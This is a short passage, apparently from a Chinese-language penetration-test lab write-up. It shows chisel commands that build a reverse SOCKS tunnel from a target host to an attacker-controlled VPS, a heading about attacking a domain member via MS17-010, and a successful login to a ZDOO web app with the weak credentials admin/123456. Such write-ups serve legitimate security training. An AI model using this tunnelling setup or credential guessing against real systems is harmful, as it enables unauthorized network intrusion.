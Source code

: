 ## 代理搭建

```plain
VPS: ./chisel server -p 7000 --reverse
靶机：./chisel client VPS:7000 R:0.0.0.0:7001:socks
```

## 攻击域成员一 (MS17-010)

访问存在 Web 服务的

[![](assets/1707954847-1240f70896b7d8d5f1488a7ff0543ce9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240209163821-94e50e9e-c726-1.png)

发现是 ZDOO，搜索相关漏洞后无果

### 弱口令登录

尝试弱口令登录，成功以`admin/123456`登入
